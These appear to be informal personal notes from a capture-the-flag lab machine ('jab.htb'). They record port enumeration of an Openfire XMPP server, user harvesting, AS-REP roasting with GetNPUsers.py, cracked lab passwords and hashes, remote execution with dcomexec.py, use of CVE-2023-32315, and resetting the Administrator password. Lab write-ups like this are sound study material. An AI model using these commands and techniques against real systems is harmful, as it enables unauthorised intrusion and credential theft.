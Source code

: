 ___



jetty -> Java web server and servlet container used to run Java web applications


there are jabber and xmpp client running on the machine

7070 has a jetty webserver http
Openfire HTTP Binding Service


7777 has a socks proxy running 


*this computer is part of jab AD domain*



is openfire running  jabber and xmpp or no different things




*intersting ports*

5222/tcp  open  jabber        syn-ack ttl 127

Ignite Realtime Openfire Jabber server 3.10.0 or later

5269/tcp  open  xmpp          syn-ack ttl 127 Wildfire XMPP Client


7070/tcp  open  http          syn-ack ttl 127 Jetty
|_http-title: Openfire HTTP Binding Service


7777/tcp  open  socks5        syn-ack ttl 127 (No authentication; connection failed)



*openfire is the xmpp server running here -> it uses jabber*

_Openfire is a Jabber (XMPP) server_




Ignite Realtime Openfire Jabber server 3.10.0 or later ->

# Openfire Path Traversal -> [CVE-2023-32315]
unauthenticated path traversal if I can reach admin portal



*xss vulns in openfire*
https://www.exploit-db.com/exploits/40065



2025/09/04 16:38:00 >  [+] VALID USERNAME:	administrator@jab.htb


2025/09/04 16:41:55 >  [+] VALID USERNAME:	DREW@jab.htb



*this goes over xmpp attack surface*
https://bishopfox.com/blog/xmpp-underappreciated-attack-surface



*I was able to connect to the XMPP server via an account registration with pidgin*


*room in server?*
conference.jab.htb



 *one of the chat rooms*
 test2 -> bdavis sent and image tag 
test -> registration req 



*checked the installed XEP's on the server and search functionality is enabled*
search for all with wildcard got all users, emails, etc


used the xmpp raw terminal for the xml request and got all users as xml


*grab only useranames from that file*
xmllint --xpath "//*[local-name()='field'][@var='Username']/*[local-name()='value']/text()" all_users.xml | cat > only_usernames.txt




ASAP roast vuln
*while I was doing this bullshit kerbrute found this*
2025/09/04 17:55:42 >  [+] mlowe has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$mlowe@JAB.HTB:60ecba9ac3a9dd097eb0641639b45da1$93c5b7fe74db1ba958d670b0e460ce36d22a4905d7bc26fc31aebf68c1bc84c0ff66a3ea831d2fec2a107786c7f2f76675af70f0867f8e6cc83638cf69a6dec76df32f4bf55f38674b7c7f11b1c1bf84a01601657be344bf72bd96f8731d044c6cc2be6ff8a09e47500b65dc3159e127df2f6949011a4d92e165824365427118df852ec8a1da4bf96162dd0fdc02a1555ce78e6987ecd4e1ceb78825348ad08c9e346048c76ba25fbeda7e48b85a359132a4b8ff513b3a8021bad056a1b32877f5d50843fc81f31a600b24574579c55e262e41e206da596d4ff1286bf4909f29e476a48631ef8fc0780ef1bf0adb3578d4aecbe8a9c8


*was not able to crack this hash*


*got TGT's for other users with pre-auth disabled AS_REP roastables*
└> GetNPUsers.py jab.htb/ -usersfile ./loot/only_usernames.txt -outputfile ./loot/tgts_asrep_roast.txt -request -no-pass -dc-ip 10.10.11.4 -dc-host DC01.jab.htb 



*cracked one of the hashes*
$krb5asrep$23$jmontgomery@JAB.HTB:Midnight_121


was able to generate TGT with this user 



*logged in jabber as that guy found pentest chats and a hash*
there was some garbage at the end of the hash deleted it and it worked




*is this the password?*
!@#$%^&*(1qazxsw



*yeah no like that is the password lol that makes sense*
SMB         10.10.11.4      445    DC01             [+] jab.htb\svc_openfire:!@#$%^&*(1qazxsw






*this error threw me off so bad bc creds were valid*
[-] DCOM SessionError: code: 0x8000401a - CO_E_RUNAS_LOGON_FAILURE - The server process could not be started because the configured identity is incorrect. Check the user name and password.




*had to change the object that dcomexec was using to execute the commands*

└> dcomexec.py jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 -silentcommand 'ping 10.10.14.24' -object MMC20




got a shell holly fucking shit



*found admin hash in the openfire embedded-db script*


*cracked it*
odW!!mVfbXs304kskt!QAZDVGY&@ (hex: 006F0064005700210021006D00560066006200580073003300300034006B0073006B0074002100510041005A004400560047005900260040)

openfire admin only maybe?
*this howhever does not appear to work*


cff12288c7334da63e31deff027bde92a9d126e912918139a970d6fad100dcb76071bff67b9c25f3

*anita smith pass*
vw3PX1Xu9dqz$0




*admin panel running on port 9090*
Openfire, Version: 4.7.5




 # i tried this but it didn't appear to worrk

*second time on this one*
# CVE-2023-32315

Openfire Console Authentication Bypass Vulnerability with RCE plugin


https://github.com/miko550/CVE-2023-32315?tab=readme-ov-file#cve-2023-32315




I already had the admin account password thought so just logged in 



*got root *

so openfire was running as NT/SYSTEM

after getting I shell I could do

net user Administrator newCoolPass123$


to change administrator password then i would be able to log in with winRM

















